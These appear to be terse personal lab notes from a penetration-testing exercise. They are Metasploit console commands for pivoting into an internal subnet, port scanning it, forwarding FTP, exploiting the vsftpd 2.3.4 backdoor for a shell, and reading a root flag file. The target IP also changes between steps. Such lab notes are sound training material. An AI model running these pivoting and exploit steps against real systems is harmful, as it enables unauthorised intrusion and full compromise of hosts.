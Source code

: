 ```yaml
---
title: Part 2
updated: 2022-02-14 08:46:51Z
created: 2022-02-14 07:51:38Z
latitude: 45.12540000
longitude: 25.73340000
altitude: 0.0000
---
```


- shell (if timeoud, open a new session)
 - ifconfig - **eth1: 192.7.145.2**
exit
run autoroute -s 192.7.145.0/24 -n 255.255.255.0

bg
route print
route add 192.7.145.0/24 255.255.255.0 2
use auxiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.7.145.3-10
exploit
sessions -i 2
portfwd add -l 1234 -p 21 -r 192.7.145.3
portfwd list

![3f8c306d2b678151c0d3a3927b602b16.png](../_resources/3f8c306d2b678151c0d3a3927b602b16.png)

search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.69.228.3
exploit
id

 ![36fde6369a1752bdfe10f6432deb693c.png](../_resources/36fde6369a1752bdfe10f6432deb693c.png)


![b6aefe1f552c84ee086d640a0f9118c7.png](../_resources/b6aefe1f552c84ee086d640a0f9118c7.png)

![0417645fb9a55dad91896c187959193d.png](../_resources/0417645fb9a55dad91896c187959193d.png)

cat /root/flag.txt
